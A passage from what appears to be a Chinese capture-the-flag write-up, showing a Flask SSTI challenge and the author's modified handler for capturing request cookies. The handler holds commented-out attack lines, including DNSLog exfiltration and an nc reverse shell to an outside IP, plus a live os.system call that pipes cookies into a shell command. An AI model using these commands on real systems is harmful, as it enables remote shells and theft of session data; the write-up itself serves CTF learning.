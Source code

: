             <span class="slider"></span>
        </label>
        <div class="container">
            <form method="POST">
                <input type="text" name="input" placeholder="Enter a word" required>
                <button type="submit">Submit</button>
            </form>
            <div class="word-display">
                {{ result }}
            </div>
        </div>
        <script src="static/script.js"></script>
    </body>
    </html>"""
    
    
    @app.route('/', methods=['GET', 'POST'])
    def ssti():
        i = 2
        template = Template(html)
        if request.method == 'POST':
            user_input = request.form['input']
        else:
            user_input = 'Hello, World!'
        try:
            return template.render(result=user_input)
        except Exception as e:
            return template.render(result=e)
    
    
    ```

3. 第三题它说脚本请求的时候会携带特殊参数。最一开始的想法就是去寻找请求参数脚本，没找到之后想着上传的修复代码来获取请求头数据，然后利用 DNSLog 数据外带出来，去问了出题人是否可以出网后，他提示我可以“留下来”。那么就想到写到本地文件：
    ```python
    @app.route('/', methods=['GET', 'POST'])
    def ssti():
        i = 2
        template = Template(html)
        if request.method == 'POST':
            user_input = request.form['input']
        else:
            user_input = 'Hello, World!'
        try:
            # os.system("ping" + "user_input" + ".cswh5j.dnslog.cn -c 1")
            # os.system("nslookup " + "410125df5b.ipv6.1433.eu.org")
            # os.system("nc " + "45.32.24.95 10000 -e /bin/bash")
            # os.system("echo " + request.headers.get("User-Agent") + " > /tmp/uploads/1.txt")
            os.system("echo \"" + str(request.cookies) + "\" >> /tmp/uploads/" + str(i) + ".txt")
            i += 1
            return template.render(result=user_input)
        except Exception as e:
            return template.render(result=e)
    ```
